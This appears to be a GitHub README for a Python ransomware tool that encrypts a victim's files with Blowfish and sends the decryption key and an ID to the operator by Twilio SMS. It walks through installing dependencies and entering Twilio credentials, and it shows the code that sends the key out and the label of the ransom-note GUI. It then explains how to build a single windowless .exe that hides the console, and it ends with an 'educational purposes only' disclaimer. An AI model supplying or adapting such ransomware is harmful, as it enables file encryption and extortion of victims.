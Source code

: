 # Ransomware
python ransomware that uses blowfish to encrypt the files and sends the decryption key through SMS using twilio.

## Required installations
- open file location and type **cmd** and **enter** in the top left
- enter these into the command prompt: 
```bash
pip install twilio
```
```bash
pip install pycryptodome
```
## Configuring SMS
- create twilio account at https://www.twilio.com/try-twilio
- on the left under develop, click on phone numbers> manage> active numbers
- create a number
- next click on verified caller IDs and enter and verify your number
- on the top right click on acoount and open API keys and tokens
- you will be able to se your account SID and auth token, you will need these
- you will need to edit this section:
```python
# send key and id number through Twilio SMS
account_sid = 'ENTER ACCOUNT SID HERE'
auth_token = 'ENTER AUTH TOKEN HERE'
client = Client(account_sid, auth_token)
message = client.messages.create(
    body=f'Encryption key: {key}\nID number: {id_number}',
    from_='TWILIO PHONE NUMBER HERE',
    to='YOUR PHONE NUMBER HERE'
)
```
## Additional edits
- you need to customize this line:
```python
 # sms label
    sms_label = tk.Label(root, text="EXAMPLE: SMS YOUREMAIL@.com for decryption key")
    sms_label.pack(pady=5)
```
- this will determine the message that shows at the top of your GUI
    
## Converting to .exe
- open file location and type **cmd** and **enter** in the top left
- enter these into the command prompt: 
```bash
pip install pyinstaller
```
```bash
pyinstaller --onefile -w main.py
```
- **--onefile** makes the exe compact instead of having multiple files
- **-w** hides the command prompt when the it is running
# ⚠️DISCLAIMER/WARNING⚠️
- THIS IS FOR EDUCATIONAL PURPOSES ONLY
- i am not responsible for malicious use of this program or damage caused by it
